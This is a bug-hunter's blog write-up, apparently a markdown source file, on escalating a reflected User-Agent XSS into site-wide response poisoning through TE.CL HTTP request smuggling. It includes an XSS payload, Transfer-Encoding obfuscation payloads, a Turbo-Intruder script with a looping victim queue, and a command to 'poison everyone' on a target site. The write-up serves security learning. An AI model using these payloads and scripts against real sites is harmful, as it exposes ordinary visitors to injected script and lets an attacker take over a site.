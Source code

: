 ```yaml
---
title: Exploiting HTTP Request Smuggling (TE.CL)- XSS to website takeover
updated: 2021-03-10 22:46
---
```

Even though HTTP Request Smuggling is documented back on 2005, it is still one of the least known Webapp vulnerability out there.

After a little break I decided to hunt a private company (which is not eligible for Bug Bounty, but still accepting reports) and what I found might be worth sharing.

## Reflected XSS in User-Agent Header

I have developed my own smart XSS fuzzing (which might be soon published) which tests both URL Endpoints and HTTP Headers. Luckily it found that User-Agent is being reflected. We can confirm it by manually send a request with Burp Suite:

![reflected_xss_burp](https://cdn-images-1.medium.com/max/800/1*M_stlWovazY6bcg702cbPQ.jpeg)

The word Exploitation is being reflected, let's put a simple XSS and break the Javascript String. The payload will look like this:

```
"><script>alert(`XSS`)</script>
```

We got XSS, nothing new and interesting by far. Mostly Private Programs don't accept this bug as in real cases, you can't send special-crafted HTTP request to an end user. Let's try to escalate this innocent-looking XSS into something more spicy.

## Recon and Detecting HTTP Request Smuggling

Burp Suite has a built-in Extension for this type of vulnerability, and it does test any kind of Smuggling while I do enumerating.


![burp_suite_extension](https://cdn-images-1.medium.com/max/800/1*WMItqq0i4OSHlL3q4ce7VQ.png)

Now let's perform automatic scans, go to **Repeater**, right click and click on **Launch Smuggle probe**.

![burp_suite_extension_right_click](https://cdn-images-1.medium.com/max/800/1*HuthN9dwqT5dvK_Ydu6s4w.png)

If HTTP Smuggling vulnerability  is detected, it will be issued on Target tab (it might take some minutes to perform the scans in the background)

![vuln_found_by_burp_extension](https://cdn-images-1.medium.com/max/800/1*-uByNsDX3Mr5056RZkc1uw.png)

## TE.CL Exploit Development

Before we craft our special-request in Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked, this way our Content-Length value doesn't automatically change by Burp Suite, this is a crucial part on this kind of exploitation.

Below is our crafted payload. Keep in mind that the 2 headers (Transfer-Encoding, and Connection) must be always included. The first chunk (A x 1000) is going to be requested to the front-end server, it contains nothing malicious because it is just a regular request as an ordinary user would do. The reason why Content-length is 1007 (in the photo below is 1005, oops…), is because there are 1000*A + \r\n + 3e8 + b0. Which means 1000 + 2 + 3 + 2 = 1007 bytes. Note: b0 is still considered a part of the first request even though it defines the length of the smuggled request.

The second chunk of data is our smuggled request, if successful, we should get Error 404 requests as there is no directory **/404hopefully** on the website. 
After the second chunk, is mandatory to add x=1 or bunch of random data and two newlines after 0.

```
0\r\n\r\n
\r\n\r\n
```
![smuggling_request_development](https://cdn-images-1.medium.com/max/800/1*vO8vcAcB4AfDjCSvBFJY-g.jpeg)

Send this request to Turbo-Intruder and if we get any 404 Request, it means that our Special-Crafted request is sent to Back-End server.

![turbo_intruder_vuln_identification](https://cdn-images-1.medium.com/max/800/1*WtmzjvOS7UP-Ban2bQo5lA.png)

## Suffix Space Bypass - Obfuscating TE Header

We have to obfuscate the TE header, because one of the servers can be induced not to process it. This technique works on quite a few systems, but we can exploit many more by making the Transfer-Encoding header slightly harder to spot, so that one system doesn't see it. Here are some payloads by James Kettle:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

 Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

I used the whitespace as a bypass method.

![suffix_tab_bypass](https://cdn-images-1.medium.com/max/800/1*FdNCO994ZtOwLEuKfRn9iA.png)

## Poisoning response and website takeover

This is our final crafted request, the difference is that the XSS payload is added to the smuggled request in User-Agent Header (which we discovered before). Save it as request.txt to launch the attack with Turbo-Intruder:

![final_crafted_request](https://cdn-images-1.medium.com/max/800/1*rfYL92DvrQYO4d8ivafGRA.png)

Inside **script.js** is a simple code which generates a HTML website as a POC (kinda servers as a DOM XSS):

```
document.documentElement.innerHTML=String.fromCharCode(60, 104, 116, 109, 108, 62, 10, 60, 104, 49, 62, 85, 115, 101, 114, 39, 115, 32, 114, 101, 115, 112, 111, 110, 115, 101, 32, 105, 115, 32, 112, 111, 105, 115, 111, 110, 101, 100, 32, 119, 105, 116, 104, 32, 72, 84, 84, 80, 32, 82, 101, 113, 117, 101, 115, 116, 32, 83, 109, 117, 103, 103, 108, 105, 110, 103, 32, 97, 110, 100, 32, 88, 83, 83, 60, 47, 104, 49, 62, 10, 60, 47, 104, 116, 109, 108, 62, 10)
```

Here is our **setup.txt** which contains the configuration part of Turbo-Intruder:

```
#credits to https://hipotermia.pw/bb/http-desync-account-takeover
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=20,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )
    engine.start()
    
    attack = target.req
    engine.queue(attack)
    
    victim = target.req
    for i in range(100000000):
        engine.queue(victim)
        time.sleep(0.05)
        
def handleResponse(req, interesting):
    table.add(req)
```

There is nothing much left to do, so fire up [Turbo-Intruder](https://github.com/PortSwigger/turbo-intruder/releases/tag/1.2.0) and poison everyone:

```
java -jar turbo-intruder-all.jar setup.txt request.txt https://www.target.com/ /
```

![turbo_intruder_poisoning_users](https://cdn-images-1.medium.com/max/800/1*4ZBYWE8VVbdPg090oNTN-g.jpeg)

As long as the Turbo-Intruder is being run, the XSS payload will be persistent on the website. Below is Javascript being executed:

![persistente_xss](https://cdn-images-1.medium.com/max/800/1*sNy8N8Q_DzAWnE82n8BOCw.jpeg)


**References**  

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn  
https://portswigger.net/web-security/request-smuggling  
https://www.youtube.com/watch?v=JW2fM_GmidU&t=1s  

